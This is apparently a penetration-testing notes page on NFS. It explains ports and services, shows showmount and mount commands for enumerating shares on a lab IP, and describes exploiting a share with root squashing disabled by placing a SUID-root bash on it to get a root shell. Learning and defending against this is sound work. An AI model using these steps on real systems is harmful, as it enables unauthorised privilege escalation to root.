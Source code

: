# NFS (Network File System)

NFS stands for "Network File System" and allows a system to share directories and files with others over a network.&#x20;

By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

### How does it work?

To access data stored on another machine (i.e. a server) the server would implement NFS daemon processes to make data available to clients. The server administrator determines what to make available and ensures it can recognize validated clients.

From the client's side, the machine requests access to exported data, typically by issuing a mount command. If successful, the client machine can then view and interact with the file systems within the decided parameters.

If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:

* &#x20;The file handle
* &#x20;The name of the file to be accessed
* &#x20;The user's, user ID
* &#x20;The user's group ID

These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

NFS uses RPC (Remote Procedure Calls) to communicate between the client and the server.

### Services Necessary to run NFS

Services to make an NFS file system work:

* **nfs** – The nfs service will start the server and the RPC processes necessary for accepting shared systems.
* **nfslock** – The nfslock service starts the RPC processes and allows NFC clients to lock files.
* **portmap** – You can take port reservations from local services with this one. Portmap will respond to messages stating that certain ports are available for file access.

#### The portmapper runs on port 111 (TCP and UDP).

#### The NFS server runs on port 2049 (TCP and UDP).

#### The NFS Lock Manager runs on 3004 (TCP and UDP).

### Enumeration of NFS

Required tools/dependencies/libs: `nfs-utils` or `nfs-common`.

#### Show available shares

```bash
showmount -e 10.10.75.141
```

#### Mount available shares

```bash
sudo mount -t nfs 10.10.75.141:home /tmp/mount/ -nolock
```

#### Un-mount NFS share

```bash
sudo umount -f -l /tmp/mount/
```

### Exploiting NFS

#### Root squashing disabled

By default, on NFS shares- Root Squashing is enabled and prevents anyone connecting to the NFS share from having root access to the NFS volume.&#x20;

Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges.&#x20;

However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.

To check if root squashing is disabled or not we can use the command:

```bash
cat /etc/exports
```

Sample output is shown below:

```
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home           *(rw,no_root_squash)
```

#### What are files with the SUID bit set?&#x20;

Essentially, this means that the file or files can be run with the permissions of the file(s) owner/group. If there is a case in which the file has SUID set as the root user or as the super-user, we can leverage this to get a shell with these privileges.

#### For an NFS share with root squashing disabled, we can upload/copy a bash executable to gain access to the root shell.

To set SUID to root for the bash executable, we can use&#x20;

```bash
sudo chmod +sx bash
```

\
